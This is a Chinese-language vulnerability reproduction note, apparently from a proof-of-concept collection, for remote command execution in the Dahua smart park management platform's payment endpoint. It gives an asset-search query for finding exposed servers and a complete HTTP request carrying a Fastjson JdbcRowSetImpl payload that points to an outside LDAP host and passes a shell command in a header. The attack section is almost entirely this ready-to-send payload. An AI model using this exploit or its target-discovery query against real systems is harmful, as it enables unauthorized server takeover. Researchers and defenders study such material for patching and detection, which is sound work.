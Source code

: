 # 大华智慧园区综合管理平台pay 远程命令执行

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台pay远程命令执行，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/wn8K3RjMTMfb0sEx/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-175675.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/wn8K3RjMTMfb0sEx/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-210923.png)

# 四、漏洞复现
```plain
POST /ipms/barpay/pay HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 127
Accept-Encoding: gzip, deflate
Cmd: whoami
Content-Type: application/json

{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://uh8aga.dnslog.cn", "autoCommit": true}
```

![1703413736105-efd77f3a-f2c3-430a-be05-31c15cd54cb7.png](./img/wn8K3RjMTMfb0sEx/1703413736105-efd77f3a-f2c3-430a-be05-31c15cd54cb7-325893.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dxg184gk73n2gyt8>